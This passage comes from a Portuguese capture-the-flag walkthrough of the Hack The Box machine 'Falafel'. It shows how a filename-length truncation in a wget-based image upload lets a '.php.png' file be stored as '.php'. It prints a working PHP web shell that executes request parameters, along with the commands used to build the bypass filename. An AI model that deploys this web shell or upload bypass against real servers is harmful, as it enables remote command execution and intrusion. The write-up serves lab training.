 Pela resposta, sabemso que foi enviado com successo, e que o nome foi alterado, tendo como fim o h7Ah.´

```bash
msf-pattern_offset -q h7Ah
#>  [*] Exact match at offset 232
```

Este "Exact match at offset 232" é feito para bufferoverflow, que normalmente seria o ponto que ficaria no ESP, sendo que não é bem esse o ponto certo. O ponto certo é 236 caracteres, mas como ainda temos de adicionar 4 caracteres para o ".png", até que dá jeito este erro lol.

Cração de um ficheiro malicioso:

```php
<?php
	echo "\nURL Shell... url?cmd=<command>\n\n";
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Resumindo:

-   O ficheiro tem obrigatoriamente que terminar por ".png"
-   O servidor apache interpreta código php
-   O wget da página de upload corta os nomes muito grandes a partir do caractere 236.

Posto isso, se renomearmos o nosso ficheiro malicioso por um arquivo com (232 carateres + .php + .png), o nome do arquivo irá ser cortado a partir do 236º caracter e ficará assim: (232 chars + .php)

```bash
cp shell.php $(msf-pattern_create -l 232).php.png
# Agora que temos o número exato de caracteres, poderíamos ter chamado o ficheiro com 232 "A"... mas na altura não me lembrei e o nome está um pouco agressivo para os olhos!
```

Resultado:

> http://10.10.14.17/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png

![uploaded web shell](Assets/HTB-Linux-Hard-Falafel/good_upload.png)

Note the path of the file and go to the webshell Ok, conseguimos enviar um arquivo, que aparentemente agora está na máquina alvo com a extensão .php. E onde está? Bem, no resultado o comando wget, vemos que antes de fazer o download do arquivo, fez um cd para uma pasta. E sabemos ainda que existe uma rota uploads... Ao juntar tudo, podemos tentar ir para a seguinte url(no meu caso):
